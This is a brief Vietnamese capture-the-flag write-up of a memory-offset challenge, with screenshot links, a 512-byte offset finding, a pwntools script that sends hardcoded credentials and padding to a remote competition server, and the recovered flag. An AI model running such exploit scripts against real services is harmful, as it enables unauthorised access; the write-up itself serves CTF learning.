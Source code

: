 ![image](https://user-images.githubusercontent.com/87138860/213171139-793481a2-f61a-49c4-8fe2-bef956044217.png)






mở file trong ida

![image](https://user-images.githubusercontent.com/87138860/213170389-e7939ab6-73ca-4b86-9c6d-bd157e007f58.png)




sử dụng gdb để xem các chức năng bảo vệ

![image](https://user-images.githubusercontent.com/87138860/213170809-9b7c6c99-56f6-4176-97ac-129efff347f3.png)




khoảng cách từ biến secret đến flag = 512 bytes


```py
from pwn import *


r = remote("146.190.115.228",9994)
user = b"KCSC_4dm1n1str4t0r"
password = b"wh3r3_1s_th3_fl4g"
pay = b'A'*512
r.recvuntil(b"Username: ")
r.sendline(user)
r.recvuntil(b"Password: ")
r.sendline(password)

r.sendline(pay)
r.interactive()```

flag: KCSC{w3ll_d0n3_y0u_g0t_my_s3cr3t_n0w_d04942f299}
